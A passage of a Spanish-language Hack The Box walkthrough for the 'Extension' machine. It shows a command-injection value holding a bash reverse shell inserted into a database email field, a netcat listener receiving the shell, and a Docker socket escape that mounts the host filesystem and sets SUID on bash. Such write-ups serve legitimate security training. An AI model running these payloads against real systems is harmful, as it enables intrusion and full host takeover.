 Hay un apartado `members` donde podemos ver la función de validar de usuarios vulnerable

![](/assets/img/HTB/Extension/vuln.png)

```shell
MySQL [webapp]> insert into users(name,email) values('shell','shell@shell|| bash -c "bash -i >& /dev/tcp/10.10.14.48/443 0>&1" &');
Query OK, 1 row affected, 2 warnings (0,242 sec)

MySQL [webapp]> 
```

Una vez lo agregamos podemos verlo en la última parte del apartado members en la web

![](/assets/img/HTB/Extension/shell.png)

Basta con darle a `VALIDATE` para invocarlo y recibir la shell en un contenedor

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
application@4dae106254bf:/var/www/html/public$ id
id
uid=1000(application) gid=1000(application) groups=1000(application),999(app)
application@4dae106254bf:/var/www/html/public$ hostname -I
hostname -I
172.21.0.3 172.18.0.4 
application@4dae106254bf:/var/www/html/public$ 
```

Podemos ver un archivo `socket` en /app el cual tiene permisos de escritura por nuestro grupo

```shell
application@4dae106254bf:/app$ ls -l 
total 0
srw-rw---- 1 root app 0 Mar 11 03:42 docker.sock
application@4dae106254bf:/app$ 
```

Para escalar privilegios podemos guiarnos del siguiente [Articulo](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25) simplemente haciendo algunos cambios

```sh
application@4dae106254bf:/app$ cmd="[\"/bin/sh\",\"-c\",\"chroot /mnt && sh -c \\\"chmod u+s /mnt/bin/bash\\\"\"]"
application@4dae106254bf:/app$ curl --unix-socket /app/docker.sock -d "{\"Image\":\"laravel-app_main\",\"cmd\":$cmd, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=privesc
{"Id":"07fb47112a55d812fd5bdec7d1b656fe05218efc3e11e8ec176119217a2735d9","Warnings":[]}
application@4dae106254bf:/app$ curl -X POST --unix-socket /app/docker.sock http://localhost/containers/privesc/start
application@4dae106254bf:/app$ 
```
